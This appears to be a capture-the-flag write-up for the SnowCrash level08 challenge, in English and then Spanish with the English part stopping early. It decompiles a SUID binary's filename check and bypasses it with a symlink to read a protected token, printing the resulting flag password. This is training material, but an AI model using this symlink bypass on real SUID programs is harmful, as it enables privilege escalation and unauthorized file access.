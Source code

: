 ### LEVEL08

- Two files in the directory `level08`: `level08` and `token`.
- ls -la 
    ```bash
    -r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
    -r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
    -r-x------  1 level08 level08  675 Apr  3  2012 .profile
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token
    ```
- I don't have access to `token`, and `level08` has SUID.
- I download `level08` locally.
    ```bash
    scp -P 4242 level14@192.168.1.36:/home/flag/flag08/flag08 .
    ```


---

### LEVEL08

- Dos archivos en el directorio `level08` y `token`
- ls -la 
    ```bash
    -r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
    -r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
    -r-x------  1 level08 level08  675 Apr  3  2012 .profile
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token
    ```
- No tengo acceso a `token` y `level08` tiene SUID
- Descargo el level08 a local
    ```bash
    scp -P 4242 level14@192.168.1.36:/home/flag/flag08/flag08 .
    ```
- Uso Ghidra con level8
    ```c 
    pcVar1 = strstr((char *)in_stack_00000008[1],"token");
    if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",in_stack_00000008[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
    }
    ```

- Es un programa que lee un archivo que se pasa como primer y único parámetro 
- Pero hay un `if` que si el parametro es == 'token' no tenemos permisos
- La solucion es hacer un link a `token` y pasarle como parametro ese link
    ```bash
    level08@SnowCrash:~$ ln -sf ~/token /tmp/a
    level08@SnowCrash:~$ ./level08 /tmp/a
    quif5eloekouj29ke0vouxean
    ```
- Me da la clave para el usuario `flag08`
    ```bash
    level08@SnowCrash:~$ su flag08
    Password:
    Don't forget to launch getflag !
    flag08@SnowCrash:~$ getflag
    ```
